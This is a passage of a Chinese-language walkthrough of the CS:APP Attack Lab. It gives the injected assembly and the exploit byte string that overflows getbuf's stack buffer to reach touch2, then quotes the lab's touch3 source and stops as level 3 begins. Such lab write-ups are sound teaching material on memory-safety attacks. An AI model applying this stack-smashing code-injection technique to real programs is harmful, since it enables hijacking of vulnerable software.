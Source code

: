 
首先写出攻击的汇编代码，然后用 `gcc -c` 看下二进制代码：
``` asm
movq $0x59b997fa,%rdi # 0x59b997fa 是 cookie.txt 中的值
movq $0x5561dc98,%rsp # 0x5561dc98 存放着 touch2 的入口地址
ret
```

最后得出我们的攻击字符串为：
``` txt
48 c7 c7 fa 97 b9 59 48
c7 c4 98 dc 61 55 c3 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ec 17 40 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
这段字符串会被写入到 `rsp` 指向的栈中。

`getbuf` 函数 `ret` 时，`IP` 指向第一行，这是指令，首先将 `rdi` 修改为 `cookie`，然后将 `rsp` 修改为第五行的地址，再 `ret`，`IP` 指向就会指向 `touch2` 的入口地址，攻击成功。

![](2022-4-9/2022-4-9_3.png)

### Level 3
这次需要我们跳转到 `touch3`。
``` C
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) {
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```
`sval` 字符串的内容应该是 `cookie.txt` 的内容，所以我们需要将字符串放入栈中，然后让 `rdi` 指向字符串首地址。
